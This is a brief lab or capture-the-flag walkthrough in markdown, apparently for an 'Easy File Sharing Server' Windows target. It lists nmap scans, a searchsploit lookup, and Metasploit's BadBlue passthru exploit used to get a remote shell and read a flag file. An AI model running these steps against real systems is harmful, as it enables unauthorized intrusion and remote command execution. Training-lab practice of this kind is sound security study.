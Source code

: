 #### Windows: Easy File Sharing Server
- nmap -Pn ip
- nmap -sV -p80 ip
- searchsploit badblue 2.7
- msfconsole
- use exploit/windows/http/badblue_passthru
- set RHOSTS ip 
- exploit
- shell
- cd /
- dir 
- type C:\\flag.txt
